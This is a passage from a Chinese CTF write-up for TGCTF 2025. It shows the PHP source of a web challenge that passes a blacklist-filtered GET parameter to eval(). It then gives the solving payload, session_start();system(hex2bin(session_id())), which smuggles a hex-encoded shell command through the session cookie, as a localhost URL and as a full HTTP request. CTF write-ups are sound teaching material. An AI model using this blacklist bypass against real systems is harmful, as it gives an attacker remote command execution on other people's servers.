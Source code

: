
5.文件修复

###### 3.**TeamGipsy&ctfer** (待更)

#### 二.web

##### 1.**AAA偷渡阴平（复仇）&& 普通**

完全体源码：

```
<?php

$tgctf2025=$_GET['tgctf2025'];

if(!preg_match("/0|1|[3-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\|localeconv|pos|current|print|var|dump|getallheaders|get|defined|str|split|spl|autoload|extensions|eval|phpversion|floor|sqrt|tan|cosh|sinh|ceil|chr|dir|getcwd|getallheaders|end|next|prev|reset|each|pos|current|array|reverse|pop|rand|flip|flip|rand|content|echo|readfile|highlight|show|source|file|assert/i", $tgctf2025)){
    //hint：你可以对着键盘一个一个看，然后在没过滤的符号上用记号笔画一下（bushi
    eval($tgctf2025);
}
else{
    die('(╯‵□′)╯炸弹！•••*～●');
}

highlight_file(__FILE__);

```



###### 通解

> url传参

```php
http://127.0.0.1:1439/?tgctf2025=session_start();system(hex2bin(session_id()));
```

> bp放包

```php
GET /?tgctf2025=session_start();system(hex2bin(session_id())); HTTP/1.1
Host: 127.0.0.1:1439
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

